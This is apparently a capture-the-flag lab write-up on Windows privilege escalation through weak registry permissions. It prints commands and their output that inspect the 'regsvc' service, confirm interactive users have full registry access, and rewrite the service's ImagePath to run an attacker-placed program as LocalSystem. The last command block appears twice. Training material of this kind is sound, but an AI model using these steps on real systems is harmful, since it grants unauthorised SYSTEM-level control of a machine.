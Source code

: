 <br>
<h2>Task 5 . 𝗦𝗲𝗿𝘃𝗶𝗰𝗲 𝗘𝘅𝗽𝗹𝗼𝗶𝘁𝘀 - Weak Registry Permissions<a id='5'></h2>

<p><em>Answer the question below</em></p>

<p>5.1. Read and follow along with the above.<br>
<code>No answer needed</code></p>

```bash
C:\PrivEsc>sc qc regsvc
sc qc regsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: regsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Insecure Registry Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

```bash
C:\PrivEsc>accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
HKLM\System\CurrentControlSet\Services\regsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
	KEY_ALL_ACCESS
  RW BUILTIN\Administrators
	KEY_ALL_ACCESS
  RW NT AUTHORITY\INTERACTIVE
	KEY_ALL_ACCESS
```

```bash
C:\PrivEsc>reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\program.exe /f            
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\program.exe /f
The operation completed successfully.
```

<img width="1093" height="272" alt="image" src="https://github.com/user-attachments/assets/21de0e21-54dc-4c44-8c41-4844737e3598" />

```bash
C:\PrivEsc>reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\program.exe /f            
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\program.exe /f
The operation completed successfully.
```
